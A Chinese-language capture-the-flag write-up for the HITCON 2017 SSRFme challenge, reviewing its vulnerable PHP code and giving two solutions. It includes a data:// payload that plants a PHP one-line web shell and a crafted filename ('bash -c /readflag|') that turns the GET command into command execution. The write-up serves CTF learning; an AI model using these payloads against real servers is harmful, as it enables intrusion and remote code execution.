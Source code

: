 ```yaml
---
title: '[HITCON 2017]SSRFme'
date: 2024-06-08 17:10:13
tags: ssrf
categories: 刷题笔记
---
```


### [HITCON 2017]SSRFme

打开页面，开始代码审计

<!-- more -->

```
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }

    echo $_SERVER["REMOTE_ADDR"];

    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }
```

获取ip地址并传给 $_SERVER[‘REMOTE_ADDR’]

```
$sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);
```

将orange和ip地址转化成md5格式，生成一个唯一的字符串。这个字符串被用来创建一个目录路径，位于 `sandbox/` 目录下。

@mkdir($sandbox);用来创建目录

@chdir($sandbox);用于更改目录

```
$data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    $info = pathinfo($_GET["filename"]);
    $dir  = str_replace(".", "", basename($info["dirname"]));
    @mkdir($dir);
    @chdir($dir);
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

使用`shell_exec`通过GET命令获取URL的数据。解析文件路径信息，创建所需的目录，并将获取的数据通过file_put_contents写入文件

**pathinfo**用来访问文件路径

![image-20240604211315365](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042113406.png)

dir用来检查文件中是否有.，进行过滤

### 非预期解

由于文件中存在file_put_contents，我们考虑伪协议上传一句话木马

```
?url=data://text/plain,<?php eval($_POST[1]);?>&filename=flag.php
```

上传后，我们打开上传目录

先将orange+ip地址进行md5加密（32位小）

![image-20240604212718669](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042127707.png)

ok，上传成功

![image-20240604211921015](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042119056.png)

我们连接蚁剑，连接成功

![image-20240604212028424](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042120576.png)

由于readflag里是一片乱码，我们用虚拟终端打开

![image-20240604212126707](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042121771.png)

得到flag

![image-20240604212249993](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042122043.png)

### 预期解

我们尝试访问根目录，

```
/?url=/&filename=aaa
```

接着访问aaa文件夹，路径:`/sandbox/MD5(orange+ip )/aaa`

![image-20240604213208005](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042132105.png)

我们发现根目录里有flag和readflag

flag应该需要readflag读取

```
?url=&filename=bash -c /readflag| 先新建一个名为“bash -c /readflag|”的文件，用于之后的命令执行

?url=file:bash -c /readflag|&filename=aaa

再利用GET执行bash -c /readflag保存到aaa文件

访问sandbox/md5/aaa（得到flag）
```

![image-20240604213407394](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406042134479.png)
